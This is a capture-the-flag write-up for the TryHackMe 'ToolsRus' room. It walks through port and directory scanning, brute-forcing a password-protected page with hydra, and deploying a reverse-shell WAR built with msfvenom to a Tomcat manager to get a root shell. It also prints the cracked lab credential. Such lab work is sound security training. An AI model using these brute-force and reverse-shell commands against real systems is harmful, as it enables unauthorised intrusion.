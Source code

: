 # ToolsRus
**Date:** October 15th 2022

**Author:** j.info

**Link:** [**ToolsRus**](https://tryhackme.com/room/toolsrus) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/toolsrus0.png)

<br>

## Objectives
- What directory can you find, that begins with a "g"?
- Whose name can you find from this directory?
- What directory has basic authentication?
- What is bob's password to the protected part of the website?
- What other port that serves a web service is open on the machine?
- Going to the service running on that port, what is the name and version of the software?
- How many documentation files did Nikto identify?
- What is the server version (run the scan against port 80)?
- What version of the Apache-Coyote is the service using?
- What user did you get a shell as?
- What text is in the file /root/flag.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

This answers question #8.

An additional all ports scan shows us:

```
PORT     STATE SERVICE VERSION
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
```

This answers question #5, #6, and #9.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 50 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 168]
/guidelines           (Status: 200) [Size: 51]
/protected            (Status: 401) [Size: 458]
```

This answers question #1.

<br>

## Website Digging

Visiting the main page:

![](images/toolsrus1.png)

Looking at /guidelines shows us:

![](images/toolsrus2.png)

This answers question #2.

Looking at /protected:

![](images/toolsrus3.png)

That answers question #3.

Looking at port 1234 shows us an unconfigured Apache Tomcat v7.0.88 server:

![](images/toolsrus4.png)

Running a gobuster scan on port 1234:

```
/host-manager         (Status: 401) [Size: 2098]
/manager              (Status: 401) [Size: 2536]
/docs                 (Status: 200) [Size: 19677]
/examples             (Status: 200) [Size: 1285]
```

/host-manager and /manager require a login. I look around for default tomcat credentials and none of them work for either.

There isn't anything interesting in /docs or /examples.

I decide to try brute forcing the bob user we saw on the port 80 /protected page:

`hydra -l bob -P rockyou.txt $ip http-get /protected/`

![](images/toolsrus5.png)

That answers question #4.

We're able to login with that and see the following:

![](images/toolsrus6.png)

I login to the port 1234 /host-manager page and see:

![](images/toolsrus7.png)

After looking around the manager pages it looks like we can deploy our own applications to the server in WAR format:

![](images/toolsrus8.png)

I use msfvenom to create a reverse WAR shell:

`msfvenom -p java/shell_reverse_tcp LHOST=10.6.0.242 LPORT=4444 -f war -o shell.war`

I then choose browse, navigate to the shell.war file, and click deploy to start it up:

![](images/toolsrus9.png)

<br>

## Root

Since the application is running and I didn't have my listener set up yet I click the stop button next to the application, start up a listener on my system, and then click the start button. This gives me a shell back as root:

![](images/toolsrus10.png)

That answers question #10.

NOTE: They ask us to use metasploit and you can use that to get a shell back like this:

![](images/toolsrus13.png)

![](images/toolsrus14.png)

That basically does exactly what we just manually did with msfvenom but gives a meterpreter shell instead.

Our shell is pretty terrible so I upgrade it:

![](images/toolsrus11.png)

And looking in /root shows us the flag we're looking for:

![](images/toolsrus12.png)

That answers question #11.

<br>

## Nikto

We still have one more question where it wants us to use Nikto to find some information on documentation files. I run it:

`nikto -h http://$ip:1234/manager/html -id "bob:bubbles"`

This takes quite awhile to complete, for me it was 34 minutes to be exact, and eventually comes back with our answer:

![](images/toolsrus15.png)

<br>

With that we've completed this CTF!

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **hydra** to brute force our way into a website login page
- Seeing that we can upload **WAR applications** to the website manager page and using **msfvenom** to create one and get a shell back
- Using **metasploit** to do the exact same thing
- Performing a vulnerability scan using **Nikto**

<br>

Many thanks to:
- **TryHackMe** for creating and hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
